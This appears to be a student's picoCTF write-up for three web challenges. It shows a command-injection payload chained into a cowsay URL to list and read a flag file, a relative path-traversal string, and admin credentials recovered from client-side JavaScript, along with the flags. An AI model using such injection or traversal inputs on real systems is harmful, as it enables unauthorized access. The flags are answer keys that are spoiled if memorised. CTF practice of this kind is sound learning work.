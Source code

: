 # CaaS

in `index.js` we see that theya re executing the message which we give in the url `https://caas.mars.picoctf.net/cowsay/{message}` making it vulnerable to command injection.
First i go with 
`https://caas.mars.picoctf.net/cowsay/ey;ls` to see whats there, i find `falg.txt` and obviously go for `https://caas.mars.picoctf.net/cowsay/ey;ls;cat falg.txt`

flag: picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

---

### Forbidden Paths

it shares the directory and the flag file name, and specified absolute path is being filtered. On trying relative path, it works.
`../../../../flag.txt`

flag: picoCTF{7h3_p47h_70_5ucc355_e5fe3d4d}

### local authority

with developer mode on, entering random usrname and psswrd redirects me to `http://saturn.picoctf.net:49386/login.php` there i can see on debugger panel a mention of `secure.js` by putting the link `http://saturn.picoctf.net:49386/secure.js` it shows me a function where it compares username and password, giving me admin as username and strongPassword098765 as the password.
using these login detail i get the flag

flag:picoCTF{j5_15_7r4n5p4r3n7_b0c2c9cb}
